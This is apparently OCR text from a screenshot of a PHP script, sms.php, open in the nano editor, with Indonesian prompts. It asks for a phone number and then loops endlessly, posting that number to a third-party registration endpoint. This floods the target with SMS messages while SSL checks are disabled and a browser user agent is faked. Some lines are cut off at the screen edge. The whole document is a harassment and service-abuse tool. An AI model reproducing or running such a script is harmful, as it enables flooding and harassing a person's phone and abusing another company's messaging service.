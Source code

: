 GNU nano 4.6         sms.php
<?php
$banner = "======================================>
function sms($target) {
  $ch = curl_init();
  curl_setopt($ch, CURLOPT_URL, "https://registra>
  curl_setopt($ch, CURLOPT_POST, true);
  curl_setopt($ch, CURLOPT_POSTFIELDS, "msisdn=$t>
  curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
  curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
  curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
  curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
  curl_setopt($ch, CURLOPT_USERAGENT, "Mozilla/5.>
  $result = curl_exec($ch);
  curl_close($ch);
  $json = json_decode($result, true);
  sleep(0.3);
  echo "\nBerhasil", $json["success"], "Mengirim >
}
echo $banner;
echo "masukan nomor:";
$nomor = trim(fgets(STDIN));
while (true) {
  $execute = sms($nomor);
  print $execute;
}
?>
